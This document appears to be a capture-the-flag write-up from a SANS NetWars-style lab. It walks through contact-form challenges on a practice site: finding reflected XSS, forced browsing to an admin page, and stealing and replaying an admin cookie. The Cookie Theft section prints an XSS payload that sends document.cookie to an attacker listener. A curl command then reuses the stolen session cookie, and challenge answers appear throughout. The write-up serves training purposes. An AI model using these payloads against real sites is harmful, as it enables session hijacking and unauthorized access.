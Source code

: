 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/b1380dc0-ccd7-44f8-8536-92d8d0bebf16)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/53da4c88-831c-44b2-9c21-4b9dd8284073)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/87c7fd9d-fc96-4990-88aa-c63c96e4a939)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/db72d66c-e486-42c8-aedb-cd9ef4e9e16d)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5
* Answer - wwwlogincookie

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. In Lab 4.4 from the course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/54c44f79-0f51-4ca6-b5c6-1a05b60ffecf)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5
* Answer - NetWars{AdminAccessIsBest}

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran the following command: 
* curl -b wwwlogincookie=0f186582606b62965d90e772e76a8a5620b11af9 "http://www.issplaylist.com/admin.html"

This returned the admin page output. Scroll down to see the flag. 
![Unauthorized Access-2](https://github.com/user-attachments/assets/922e6443-10d2-454e-bd81-05d523dab0ac)
![Unauthorized Access-3](https://github.com/user-attachments/assets/ee50190d-5dd2-42a7-9b40-7845162253c9)
